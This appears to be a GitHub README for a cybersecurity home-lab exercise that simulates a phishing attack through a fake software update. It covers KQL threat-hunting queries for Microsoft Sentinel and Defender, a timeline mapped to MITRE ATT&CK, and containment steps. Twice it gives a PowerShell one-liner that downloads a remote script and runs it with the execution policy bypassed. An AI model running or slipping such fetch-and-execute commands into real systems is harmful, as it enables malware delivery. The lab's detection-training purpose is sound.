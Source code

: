 

# 🚨 **Incident Response: Phishing via Fake Software Update** 🚨  

<img width="700*500" src="https://github.com/user-attachments/assets/e9d2fd77-dc9f-4faa-a735-925e1d3a25f0" alt="Tor Logo with the onion and a crosshair on it"/>

---

### 🛡️ **Scenario Overview**  
- **Organization**: 🏢 Medium-sized FinTech company.  
- **Threat**: Employees report unusual system behavior after clicking on a suspicious software update notification.  
- **Objective**: Identify the phishing campaign’s scope, mitigate its impact, and strengthen defenses.  

---

### 🌐 **PowerShell Payload (POC)**  

 
📥 **The PowerShell Payload**
Run the PowerShell command below on your VM **after onboarding it to MDE**:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/VanessaMancia/PowerShell-test-script/refs/heads/main/testscript.ps1' -OutFile 'C:\ProgramData\phishingFakeSoftwareUpdate.ps1'; cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\phishingFakeSoftwareUpdate.ps1
```

https://raw.githubusercontent.com/VanessaMancia/PowerShell-test-script/refs/heads/main/testscript.ps1

---

![Screenshot 2025-01-26 181108](https://github.com/user-attachments/assets/ae028dcd-fe4d-420a-94a3-c68dd922c05b)

![Screenshot 2025-01-26 130233](https://github.com/user-attachments/assets/1fafdb38-ba32-4b29-b86f-dbb693dbfc0e)

---
### 💻 **Platforms and Tools Leveraged**  
- **SIEM**: Microsoft Sentinel  
- **Endpoint Protection**: Microsoft Defender for Endpoint  
- **Query Language**: Kusto Query Language (KQL)  
- **Infrastructure**: Windows 10 VMs on Microsoft Azure  

---

## 🕵️‍♂️ **High-Level IoC Discovery Plan**  
**Focus Areas**:  
1️⃣ Check **DeviceFileEvents** for suspicious file activity. 
2️⃣ Check **DeviceProcessEvents** for signs of malicious execution.  
3️⃣ Check **DeviceNetworkEvents** for outgoing connections, especially over known malicious ports.  

---

### 🔍 **KQL Queries**  

**Query: Recent File Events**  
```kql
DeviceFileEvents
| top 50 by Timestamp desc
```

**Query: Network Events**  
```kql
DeviceNetworkEvents
| top 50 by Timestamp desc
```

**Query: Process Events**  
```kql
DeviceProcessEvents
| top 50 by Timestamp desc
```

---

## 📊 **Threat Timeline**  

### 1️⃣ **File Download (Initial Access)**  
- **TTP**: [T1193](https://attack.mitre.org/techniques/T1193) - Spear Phishing Link  
- **Event**: Employees receive a phishing email that mimics IT, containing a link to a "critical software update."  
- **Impact**: The link leads to downloading a PowerShell payload.  

**Relevant Query**:  
```kql
DeviceFileEvents
| where DeviceName == "nessa-windows"
| where FileName endswith "ps1"
| order by Timestamp desc 
```
![Screenshot 2025-01-26 131545](https://github.com/user-attachments/assets/0f60aaaa-fc7c-456e-8680-5a2a3d7ed5db)
---

### 2️⃣ **Process Execution**  
- **TTP**: [T1059.001](https://attack.mitre.org/techniques/T1059/001) - PowerShell Execution  
- **Event**: Malicious PowerShell script execution on victim devices.  
- **Query Used**:  
```kql
let VMName = "tphish";
let specificTime = datetime(2025-01-26T19:01:29.0367754Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where DeviceName == VMName
| order by Timestamp desc
```

![Screenshot 2025-01-26 133010](https://github.com/user-attachments/assets/31b64c99-ad4f-48c1-b89f-ff5a34d5962f)

---

```kql
DeviceProcessEvents
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "phishingFakeSoftwareUpdate.ps1" or ProcessCommandLine contains "Add-Type -AssemblyName PresentationFramework"
| extend Timestamp = Timestamp, InitiatingProcessAccountName = InitiatingProcessAccountName
| project Timestamp, DeviceName, FileName, ProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessCommandLine
| order by Timestamp desc
```
![Screenshot 2025-01-26 134312](https://github.com/user-attachments/assets/31820b28-e89e-4e42-9ea5-24060e2a7508)

---


### 3️⃣ **Network Connection to C2 Server**  
- **TTP**: [T1071.001](https://attack.mitre.org/techniques/T1071/001) - Web Protocols  
- **Event**: Communication with a C2 server over the internet, potentially exfiltrating credentials.  
- **Query Used**:  
```kql
union DeviceNetworkEvents, DeviceProcessEvents
| where Timestamp > ago(6h)
| where RemoteUrl contains "raw.githubusercontent.com" or InitiatingProcessCommandLine has "phishingFakeSoftwareUpdate.ps1"
| project Timestamp, DeviceName, RemoteUrl, RemoteIP, InitiatingProcessCommandLine, FileName, FolderPath, ActionType
| order by Timestamp desc
```
![Screenshot 2025-01-26 140306](https://github.com/user-attachments/assets/f41a1d4e-246e-4ca1-9053-5a0630777595)

---

### 4️⃣ **Lateral Movement & Credential Dumping**  
- **TTPs**:  
  - [T1210](https://attack.mitre.org/techniques/T1210) - Exploitation of Remote Services  

---

## 🛠️ **Mitigation Steps**  

### 🔒 Containment  
1️⃣ Block the malicious domain on the firewall and DNS servers.  
2️⃣ Disable compromised user accounts and enforce password resets.  
3️⃣ Isolate infected machines from the network.  

### 🧹 Eradication  
1️⃣ Deploy updated antivirus signatures to detect and remove the malware.  
2️⃣ Conduct system-wide scans using EDR tools.  

### 🔄 Recovery  
1️⃣ Restore affected systems from backups.  
2️⃣ Re-enable user access after ensuring systems are clean.  

---

## 🧠 **Post-Incident Improvements**  

### 🚀 Proactive Monitoring  
- Enhanced SIEM rules for detecting phishing emails.  
- Integration of threat intelligence feeds to block new malicious domains.
- Create a Rule to detect this. 

### 📚 User Awareness  
- Mandatory phishing training with simulation tests.  
- Quick-reference phishing awareness guide shared via email.  

---

### 📈 **Mapped TTPs to MITRE ATT&CK Framework**  

| Tactic             | Technique                             | ID        | Example                             |  
|---------------------|---------------------------------------|-----------|-------------------------------------|  
| **Initial Access**  | Spear Phishing Link                  | T1193     | Phishing email with fake update link |  
| **Execution**       | PowerShell Execution                 | T1059.001 | Malicious PowerShell script executed |  
| **Command & Control** | Web Protocols                     | T1071.001 | C2 communication to exfiltrate data |  
| **Credential Access** | Credentials in Files              | T1555.003 | Stolen credentials from payload use |  
| **Lateral Movement**  | Exploitation of Remote Services    | T1210     | Attempts to pivot to other devices  |  

---

### 📥**PowerShell Payload (POC)**  

Run the PowerShell command below on your VM **after onboarding it to MDE**:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/TrevinoParker7/Powershell-test-payload-harmless/refs/heads/main/phishingFakeSoftwareUpdate.ps1' -OutFile 'C:\programdata\phishingFakeSoftwareUpdate.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\phishingFakeSoftwareUpdate.ps1
```

https://github.com/TrevinoParker7/Powershell-test-payload-harmless/blob/main/phishingFakeSoftwareUpdate.ps1

---
